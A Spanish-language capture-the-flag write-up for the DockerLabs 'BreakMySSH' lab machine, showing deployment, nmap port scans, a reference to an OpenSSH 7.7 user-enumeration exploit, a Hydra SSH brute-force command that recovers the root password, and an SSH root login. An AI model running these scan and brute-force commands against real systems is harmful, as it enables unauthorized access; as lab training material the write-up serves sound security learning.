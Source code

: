 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# BreakMySSH DockerLabs (Very Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip breakmyssh.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh breakmyssh.tar
```

Info:

```
                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-03 12:52 EST
Nmap scan report for 172.17.0.2
Host is up (0.000028s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 1a:cb:5e:a3:3d:d1:da:c0:ed:2a:61:7f:73:79:46:ce (RSA)
|   256 54:9e:53:23:57:fc:60:1e:c0:41:cb:f3:85:32:01:fc (ECDSA)
|_  256 4b:15:7e:7b:b3:07:54:3d:74:ad:e0:94:78:0c:94:93 (ED25519)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.65 seconds
```

Vemos que el `SSH` tiene una version `7.7` por lo que vamos a buscar si tuviera algun exploit asociado a el.

## Exploit OpenSSH 7.7

Si buscamos un poco veremos el siguiente `exploit` el cual nos deja enumerar usuarios del sistema.

URL = [Exploit OpenSSH 7.7](https://www.exploit-db.com/exploits/45233)

Pero antes de utilizar el script podremos utilizar `2` usuarios tipicos que vienen por defecto en `kali` al crear un `docker` que serian los siguiente:

> users.txt

```
root
ubuntu
```

Y ahora vamos a probar fuerza bruta:

## Escalate Privileges

### Hydra

```shell
hydra -L users.txt -P <WORDLIST> ssh://<IP> -t 64
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-03 13:09:38
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 28688798 login tries (l:2/p:14344399), ~448263 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: root   password: estrella
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Vemos que obtendremos las credenciales de `root` directamente, por lo que entraremos mediante `ssh`.

```shell
ssh root@<IP>
```

Metemos como contraseña `estrella` y veremos que estamos dentro.

Info:

```
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:U6y+etRI+fVmMxDTwFTSDrZCoIl2xG/Ur/6R0cQMamQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
root@172.17.0.2's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@4a86b8aff2d9:~# whoami
root
```

Por lo que habremos terminado ya la maquina.
